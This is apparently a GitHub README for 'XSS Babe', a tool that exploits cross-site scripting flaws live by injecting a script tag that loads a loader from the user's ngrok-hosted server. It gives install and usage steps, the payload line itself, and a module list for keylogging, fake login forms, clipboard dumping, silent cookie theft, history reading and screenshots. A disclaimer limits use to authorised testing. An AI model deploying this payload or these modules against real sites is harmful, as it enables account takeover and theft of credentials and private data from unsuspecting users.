 # XSS BABE

XSS Babe is a tool for exploiting XSS vulnerabilities in real time. 
It automates delivery, tracking, and payload interaction through a live command-line interface. 

## ⚠️ Legal Disclaimer

This tool is for educational and ethical penetration testing only. 
Do not use it against targets without permission. 
You are solely responsible for how you use this software.

---

## Installation

### 1. Clone the Repo

```bash
git clone https://github.com/ekomsSavior/xss_babe.git
cd xss_babe
```

### 2. Install Dependencies

```bash
sudo apt update
sudo apt install python3 python3-pip unzip -y
pip3 install -r requirements.txt
```

### 3. Install Ngrok

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

## Ngrok Setup

1. Sign up at https://ngrok.com/signup  
2. Copy your auth token from: https://dashboard.ngrok.com/get-started/setup  
3. Add your token:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

## Usage

```bash
python3 xss_babe_cli.py
```

### What It Does:
- Prompts for a target XSS URL (like: `https://vuln.site/?q=`)
- Auto-launches the Flask server and Ngrok
- Injects `x.js` loader into your payload
- Displays a live menu of attack modules
- Logs all browser events and saves session results in `sessions/`

---

## Example Payload

Use the Ngrok URL + this payload in the vulnerable input:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

---

## Modules List

| Module            | Description                                      |
|-------------------|--------------------------------------------------|
| keylogger         | Records keystrokes in real time                  |
| fake_login        | Displays fake login form for credential capture  |
| clipboard         | Dumps contents of the victim’s clipboard         |
| auto_cookie_steal | Extracts document cookies silently               |
| browser_history   | Reads browser history if accessible              |
| download_bait     | Triggers fake file downloads (ZIP/PDF/etc)       |
| fingerprint       | Collects user-agent, screen size, timezone       |
| screenshot        | Captures visual screenshot using HTML2Canvas     |
| recon             | Loads iframe ports and resources for open recon  |
| cross_tab_spy     | Detects and tracks multiple open tabs            |

---

## File Structure

```
xss_babe/
├── xss_babe_cli.py             # Main interactive CLI
├── server.py                   # Flask server for payload delivery
├── requirements.txt            # Python dependencies
├── static/
│   ├── x.js                    # XSS loader script
│   └── modules/
│       ├── keylogger.js
│       ├── fake_login.js
│       ├── clipboard.js
│       ├── auto_cookie_steal.js
│       ├── browser_history.js
│       ├── download_bait.js
│       ├── fingerprint.js
│       ├── screenshot.js
│       ├── recon.js
│       └── cross_tab_spy.js
├── utils/
│   └── save_to_txt.py          # Helper to save session info
└── sessions/
    └── [timestamp].txt         # Auto-generated session logs
```

---

## Logs and Reporting

All session output (payloads used, timestamps, logs) are saved to:

```
sessions/YYYY-MM-DD-HHMMSS.txt
```

---

## Stay Ethical

Use XSS Babe only in lab environments or on targets you own or have permission to test. 

---

##  Developed by [ekomsSavior](https://github.com/ekomsSavior)
